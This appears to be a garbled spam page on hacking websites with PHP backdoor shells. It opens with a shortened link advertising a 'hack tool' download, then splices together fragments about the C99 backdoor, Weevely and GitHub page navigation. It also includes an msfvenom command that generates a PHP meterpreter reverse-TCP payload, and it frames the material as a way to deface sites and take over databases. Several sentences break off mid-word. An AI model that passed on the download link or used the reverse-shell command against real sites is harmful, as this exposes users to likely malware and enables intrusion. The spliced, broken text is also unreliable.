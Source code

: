 How to hack website using php backdoor shell



𝐃𝐎𝐖𝐍𝐋𝐎𝐀𝐃 𝐇𝐀𝐂𝐊 𝐓𝐎𝐎𝐋 𝐇𝐄𝐑𝐄 ===> http://gg.gg/11802k?543868



.



.



.



.



.



.



.



.



.



.



.



.

[C99 Shell PHP Backdoor] is a PHP Scripted Backdoor that allows an attacker to Deface Website and Get Complete Access on Database and. This post is about Website Hacking with the help of  we learn how to hack website using PHP backdoor shell. This post is about hacking websites with backdoor. Today we will learn how to hack a website with the PHPbackdoor. Weevely is a tool that helps implement.

Upload shell to hack a website: Part2-webshells in Kali Linux. Hello aspiring hackers. It would be completely unfair to discuss about web shells without discussing about Weevely. Weevely is a command line web shell dynamically extended over the network at runtime, designed for remote administration and penetration testing or bad ted Reading Time: 5 mins. shell-backdoor-list/shell/php/ /Jump toCode definitions. Go to file. Go to file T. Go to line L. Go to definition R. Copy path. Copy permalink. Cannot retrieve contributors at this time. 3 lines (3 sloc) Bytes. PHP Backdoor using MSFvenom We can also generate a php web shell with the help of msfvenom. We, therefore, write use msfvenom following command for generating malicious php code in raw format. msfvenom -p php/meterpreter/reverse_tcp lhost= lport= R. Then copy the code and save it by the name of imated Reading Time: 7 mins.
